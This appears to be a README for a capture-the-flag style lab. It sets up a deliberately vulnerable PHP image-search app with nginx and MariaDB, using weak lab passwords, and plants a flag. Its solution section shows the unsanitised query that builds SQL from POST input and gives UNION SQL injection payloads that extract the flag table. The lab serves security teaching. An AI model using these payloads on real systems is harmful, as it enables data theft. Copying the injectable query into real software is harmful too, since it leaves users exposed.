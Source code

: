 # PHP SQL injection 1 Attack (Pictures)

Download VM:
* Credentials: ```user/user```, ```root/123456```
* SSH disabled
* Debian 11, 2 GB disk

# Agenda

In this lab, we will look at the simplest example of SQL injection in the image search functionality and will try to extract not only images, but some juicy info.


# Setup

*Requirements:*  **2 GB** of disk space for VM.

Put all files in **source** to folder **/var/www/html/**


```bash
sudo apt-get update --allow-releaseinfo-change
sudo apt-get install nginx mariadb-server php-fpm php-mysql
```

```bash
sudo chown www-data:www-data -R /var/www/html/
sudo chmod 755 -R /var/www/html/*
```

#### Manual database setup

```

sudo mysql -e "UPDATE mysql.user SET Password = PASSWORD('12345') WHERE User = 'root'"
sudo mysql -e "DELETE FROM mysql.user WHERE User='';"
sudo mysql -e "DELETE FROM mysql.user WHERE User='root' AND Host NOT IN ('localhost', '127.0.0.1', '::1');"
sudo mysql -e "DROP DATABASE IF EXISTS test;"
sudo mysql -e "DELETE FROM mysql.db WHERE Db='test' OR Db='test\\_%';"
sudo mysql -e "create database pictures";
sudo mysql -e "CREATE USER 'admin'@'localhost' IDENTIFIED BY 'admin'";
sudo mysql -e "GRANT ALL PRIVILEGES ON pictures . * TO 'admin'@'localhost'";
sudo mysql -e "FLUSH PRIVILEGES";
sudo mysql -e "create table pictures.pictures(\`id\` int,\`image\` varchar(255),\`category\` varchar(50));";
sudo mysql -e "create table pictures.flag(\`id\` varchar(50));";
sudo mysql -e "insert into pictures.pictures(\`id\`,\`image\`,\`category\`) values ('1','animals-1.jpg','animals');";
sudo mysql -e "insert into pictures.pictures(\`id\`,\`image\`,\`category\`) values ('2','animals-2.jpg','animals');";
sudo mysql -e "insert into pictures.pictures(\`id\`,\`image\`,\`category\`) values ('3','animals-3.jpg','animals');";
sudo mysql -e "insert into pictures.pictures(\`id\`,\`image\`,\`category\`) values ('4','animals-4.jpg','animals');";
sudo mysql -e "insert into pictures.pictures(\`id\`,\`image\`,\`category\`) values ('5','animals-5.jpg','animals');";
sudo mysql -e "insert into pictures.pictures(\`id\`,\`image\`,\`category\`) values ('6','animals-6.jpg','animals');";
sudo mysql -e "insert into pictures.pictures(\`id\`,\`image\`,\`category\`) values ('7','nature-1.jpg','nature');";
sudo mysql -e "insert into pictures.pictures(\`id\`,\`image\`,\`category\`) values ('8','nature-2.jpg','nature');";
sudo mysql -e "insert into pictures.pictures(\`id\`,\`image\`,\`category\`) values ('9','nature-3.jpg','nature');";
sudo mysql -e "insert into pictures.pictures(\`id\`,\`image\`,\`category\`) values ('10','art-3.jpg','art');";
sudo mysql -e "insert into pictures.pictures(\`id\`,\`image\`,\`category\`) values ('11','art-3.jpg','art');";
sudo mysql -e "insert into pictures.pictures(\`id\`,\`image\`,\`category\`) values ('12','art-3.jpg','art');";
```

####  Set up a flag

```
sudo mysql -e "insert into pictures.flag(\`id\`) values ('SQL_Injection_is_y0ur_Friend');";
```


#### Nginx configure

Change **/etc/nginx/sites-enabled/default** (php-fpm version may be different):

```
server {
        listen 80 default_server;
        listen [::]:80 default_server;

        root /var/www/html;
        index index.php;
        server_name _;

        location / {
                try_files $uri $uri/ =404;
        }
        location ~ \.php$ {
                include snippets/fastcgi-php.conf;
                fastcgi_pass unix:/run/php/php7.3-fpm.sock;
        }

}
```

Reload nginx config
```
sudo service nginx restart
#sudo systemctl restart nginx
```


## How to check that everything works ?

1. Open the main page. You should see the working app. 


## Solution

There is SQL injection

```php

$query="SELECT * FROM pictures where category='" . $_POST['search'] . "'

```
1. Exploit it with SQLMAP.
2. Or put in search box next statement: 
- ```' union select id,id,id from flag -- ``` (whitespace at the end!!)
- ```' union select id,id,id from flag#```